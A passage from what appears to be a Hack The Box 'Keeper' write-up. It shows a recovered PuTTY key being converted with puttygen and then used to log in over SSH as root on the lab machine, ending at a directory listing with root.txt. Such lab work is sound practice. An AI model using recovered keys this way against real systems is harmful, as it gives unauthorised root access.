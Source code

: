 ![](/assets/Images/htb-keeper/Pasted_image_20240122172544.png)

Copy the notes to a file called keeper.ppk and use puttygen to convert to a pem:

```bash
puttygen keeper.ppk -O private-openssh -o keeper.pem
```

```bash
dflinton@kali:~/HTB/Machines/Keeper$ ssh -i keeper.pem root@keeper.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Mon Jan 22 19:33:45 2024 from 10.10.14.240
root@keeper:~# ls
root.txt  RT30000.zip  SQL

```
